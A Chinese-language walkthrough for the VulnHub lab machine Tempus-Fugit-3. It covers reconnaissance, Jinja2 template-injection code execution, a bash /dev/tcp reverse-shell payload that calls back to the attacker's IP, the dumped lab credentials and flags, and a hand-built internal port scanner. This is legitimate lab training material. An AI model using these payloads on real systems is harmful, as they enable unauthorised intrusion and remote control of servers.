



#  vulnhub系列——Tempus-Fugit-3

# 一、信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   

2. 端口扫描

   ``` shell
   nmap -Pn -sC -sV -p- 192.168.50.128
   ```

   

3. 指纹识别

   ``` shell
   whatweb 192.168.50.128
   ```

   

4. 目录扫描

   ``` shell
   dirsearch -u http://192.168.50.128 -e *
   ```

   

# 二、外网突破

1. 没有扫描出什么有用的东西，测试报错，访问不存在的URL，报错显示了通过URL传递的内容

   

2. 再测试一下{{7*7}}，页面回显不一样了，报错回显中URL参数变成了49，说明{{7*7}}被执行了，URL参数传递存在SSTI模板注入

   

3. 测试以下Payload，查看用户id

   ``` shell
   http://192.168.50.128/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
   ```

   

4. 反弹shell，Payload如下，在kali上开启netcat监听

   ``` shell
   {{''.__class__.__mro__[1].__subclasses__()[373]("bash -c 'bash -i >& /dev/tcp/192.168.50.172/4444 0>&1'",shell=True,stdout=-1).communicate()[0].strip()}}
   ```

   

5. 成功获取shell

   

6. ls -al查看当前目录下的所有文件

   

7. cat app.py，发现有一个key

   

8. 下面还有数据库交互，发现数据库文件地址

   

9. cd进入static目录，ls找到数据库文件

   

10. 执行以下命令，进入数据库交互

    ``` shell
    sqlcipher db2.db --interactive
    ```

    

11. 成功获取用户名和密码

    

    

    ``` shell
    hugh-janus|S0secretPassW0rd
    anita-hanjaab|ssdf%dg5xc
    clee-torres|asRtesa#2s
    RmxhZzN7IEhleSwgcmVhZGluZyBzZWNyZXRzICB9|
    ```

12. 最后一个加密了，base64解码一下

    

13. 逐个登录一下

    

    

    

14. 都提示51235，可能是端口，F12查看源码，发现一串密文

    ``` shell
    RmxhZzJ7IElzIHRoaXMgdGhlIGZvb3Rob2xkIEkgaGF2ZSBiZWVuIGxvb2tpbmcgZm9yP30=
    ```

    

15. base64解码，第二个flag

    

# 三、内网渗透

1. 刚开始扫描端口的时候只发现了22和80两个端口，那么这个51235端口可能是内网端口，但是web容器上没有nmap、nc，也无法安装，只能使用脚本进行内部扫描，成功扫出2个ip

   ``` python
   for i in {1..254} ;do (ping -c 1 192.168.100.$i | grep "bytes from" &) ;done
   ```

   

2. 考了这篇文章，用以下方法创建了一个扫描脚本，[Tempus fugit 3 writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-10-09-fugit3)

   ``` shell
   echo 'import socket' > scan.py
   echo 'for port in range(1, 65535):' >> scan.py
   echo '    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> scan.py
   echo '    sock.settimeout(1)' >> scan.py
   echo '    result = sock.connect_ex(("192.168.100.1", port))' >> scan.py
   echo '    if 0 == result:' >> scan.py
   echo '        print(port)' >> scan.py
   echo '    sock.close()' >> scan.py
   ```

3. 192.168.100.1开放了51235端口

   

